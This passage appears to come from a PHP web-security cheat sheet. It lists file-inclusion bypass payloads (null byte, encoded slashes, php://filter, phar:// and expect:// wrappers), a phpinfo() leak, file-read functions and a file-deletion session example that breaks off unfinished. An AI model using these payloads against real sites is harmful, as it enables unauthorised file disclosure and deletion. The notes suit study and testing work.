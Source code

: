 #### 3) bypass file include
> include($file.'.php');

```
test.php  =>  test.php%00
/   => %2f
```
#### 4) bypass ../../
```
/./ ==> //
file://
php://  ==> http://www.example.com/php.php?file=php://filter/convert.base64-encode(内容被base64编码)/resource=example.txt(远程文件)
http://
ftp://
zlib://
glob://
phar://
ssh2://
rar://
ogg://
expect://
```
### 信息泄漏
```
<?php phpinfo();?>
```
### 文件读取
#### 关键函数
```
file_get_contents()
highlight_file()
fopen()
read file()
fread()
fgetss()
fgets()
parse_ini_file()
show_source()
file()
```
### 删除文件
```
unlink()
session_destroy()
```
> example

```
<?php 
    //test.php
    session_save_path('./');
    session_start();
    if($_GET['del']) 
    {
        session_unset();
        session_destroy();
    }
    else
    {
        $_SESSION['hei']=1;
        echo(session_id());
        print_r($_SESSION);
```